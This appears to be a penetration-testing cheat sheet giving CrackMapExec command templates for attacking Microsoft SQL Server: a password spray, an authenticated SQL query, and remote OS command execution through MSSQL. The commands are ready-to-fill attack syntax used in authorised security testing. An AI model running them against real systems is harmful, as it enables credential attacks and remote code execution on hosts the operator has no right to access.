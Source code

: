 # cme

% cme-mssql, crackmapexec, windows, Active directory
#plateform/linux #target/remote #port/1433 #protocol/mssql

## mssql password spray
#cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
cme mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## mssql execute query
#cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## mssql execute command
#cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```